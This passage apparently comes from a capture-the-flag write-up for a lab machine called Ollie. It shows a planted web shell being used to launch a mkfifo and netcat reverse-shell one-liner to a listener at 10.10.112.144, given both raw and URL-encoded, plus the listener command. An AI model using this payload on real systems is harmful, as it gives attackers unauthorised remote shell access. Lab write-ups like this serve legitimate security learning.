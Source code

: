 ![Web Shell](/assets/img/posts/ollie/insert_payload_shell.png)

This gives us error but the code is executed, indeed going to the path "/var/www/html/shell.php", I got a Web shell and I used it to create a reverse shell, by using the following payload:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.112.144 9999 >/tmp/f
```
Encoded as URL:
```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20%24IP%209999%20%3E%2Ftmp%2Ff
```

>Tips
>I advise you to use [this site](https://www.revshells.com/) to create the reverse shell, it is a great resource!

Before executing the payload, I set a netcat listener on my machine:
```
nc -lnvp 9999
```
Then, by executing the payload:

![Reverse Shell](/assets/img/posts/ollie/rev_shell.png)

I obtain a reverse shell:

![Reverse Shell](/assets/img/posts/ollie/reverse_shell.png)
